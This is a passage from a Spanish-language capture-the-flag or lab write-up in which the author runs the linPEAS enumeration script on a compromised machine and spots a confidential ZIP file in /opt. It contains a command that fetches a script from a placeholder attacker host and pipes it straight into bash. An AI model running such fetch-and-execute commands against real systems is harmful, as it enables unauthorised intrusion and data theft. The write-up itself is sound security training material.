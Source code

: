 Esta vez, vamos a ejecutar el **linPEAS** desde el servidor que alcemos en nuestra máquina.

Tan solo necesitamos levantar un servidor con **Python** y como en la máquina víctima tenemos **wget**, lo ejecutamos en conjunto con **Bash**:
```bash
mortadela@mortadela:/tmp$ wget -qO- http://Tu_IP/linpeas.sh | bash
.
                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀
.
    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------|
    |         Learn Cloud Hacking       :     https://training.hacktricks.wiki         |
    |         Follow on Twitter         :     @hacktricks_live                        |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          LinPEAS-ng by carlospolop
...
...
...
```

Revisando lo que fue encontrando **linPEAS**, encontramos un archivo ZIP dentro del directorio `/opt`:
```bash
╔══════════╣ Unexpected in /opt (usually empty)
total 90880
drwxr-xr-x  2 root root     4096 abr  1  2024 .
drwxr-xr-x 18 root root     4096 abr  1  2024 ..
-rw-r--r--  1 root root 93052465 abr  1  2024 muyconfidencial.zip
```
